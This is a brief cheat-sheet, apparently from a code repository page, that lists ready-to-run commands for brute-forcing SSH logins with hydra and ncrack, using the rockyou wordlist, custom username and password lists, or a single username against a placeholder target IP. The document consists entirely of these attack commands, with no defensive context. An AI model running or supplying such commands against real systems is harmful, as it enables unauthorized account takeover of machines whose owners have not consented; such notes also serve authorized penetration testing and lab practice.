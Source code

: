 
Using rockyou wordlist:
---
```shell
hydra -l USERNAME -P /usr/share/wordlists/rockyou.txt $TARGET_IP ssh -t 4 -V
```

Using custom wordlist:
---
```shell
hydra -L usernames -P passwords $TARGET_IP ssh -t 4 -V
```

Brute force single username:
---
```shell
hydra -l USERNAME -P passwords $TARGET_IP ssh -t 4 -V
```

Using ncrack:
---
```shell
ncrack -u $TARGET_USER -P wordlist -v ssh://$TARGET_IP
```